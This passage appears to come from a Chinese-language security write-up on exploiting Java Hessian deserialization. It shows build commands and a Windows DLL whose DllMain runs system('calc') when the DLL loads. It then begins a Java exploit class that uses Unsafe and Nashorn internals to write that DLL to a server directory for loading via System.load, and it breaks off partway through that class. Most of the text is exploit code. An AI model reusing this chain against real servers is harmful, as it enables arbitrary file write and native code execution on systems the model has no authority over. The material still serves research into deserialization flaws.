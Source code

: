 `gcc -c calc.c -o calc && gcc calc --share -o calc.so`

* Windows生成dll文件

```c
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        calc();  // 进程附加时调用
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

// pch.cpp
#include "pch.h"
#include <stdlib.h>
#include <stdio.h>

void calc() {
    system("calc");
}

// pch.h: 预编译标头文件。
#ifndef PCH_H
#define PCH_H
#include "framework.h"
extern "C" _declspec(dllexport) void calc();
#endif //PCH_H
```

先写so/dll文件，再通过`System.load`加载动态链接库

```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import jdk.nashorn.internal.runtime.ScriptEnvironment;
import jdk.nashorn.internal.runtime.logging.DebugLogger;
import sun.misc.Unsafe;

import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class WriteFile {
    public static void main(String[] args) throws Exception {
        Unsafe unsafe = getUnsafe();
        Object script = unsafe.allocateInstance(ScriptEnvironment.class);
        setFieldValue(script, "_dest_dir", "E:/Server/");
        Object debug = unsafe.allocateInstance(DebugLogger.class);
        byte[] code = Files.readAllBytes(Paths.get("E:/calc.dll")); // 准备好的dll放在E盘根目录下
        String classname = "calc";
```